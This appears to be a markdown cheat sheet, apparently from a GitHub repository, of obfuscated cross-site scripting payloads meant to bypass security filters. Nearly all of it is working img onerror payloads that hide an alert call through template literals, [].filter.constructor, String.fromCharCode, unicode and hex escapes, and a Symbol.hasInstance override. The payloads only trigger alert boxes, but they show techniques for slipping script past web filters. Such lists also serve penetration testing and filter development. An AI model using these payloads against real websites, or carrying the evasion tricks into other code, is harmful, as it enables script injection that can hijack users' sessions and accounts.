 # Obfuscated XSS

The art of hiding Cross-Site Scripting (XSS) payloads to bypass security filters.

Goodbye!

```
<img src onerror=alert`1`>
```

----------

### Basic without Eval

```
<img src onerror="Function`al\x65rt\x281\x29`()">
```

### filter.constructor

```
<img src onerror="[].filter.constructor('('+('al'+'ert')+')(1)')()">
<img src onerror="[].filter.constructor(''+String.fromCharCode(97,108,101,114,116)+'(1)')()">
<img src onerror="[].filter.constructor('\u0061\u006c\u0065\u0072\u0074(1)')()">
<img src onerror="[].filter.constructor('\x61\x6c\x65\x72\x74(1)')()">
```

### Indirect function call obfuscation with Symbol.hasInstance abuse and instanceof override

```
<img src=x onerror="([][Symbol.hasInstance]=eval,[]instanceof{[Symbol.hasInstance](){('al'+'ert')(0)}})">
```
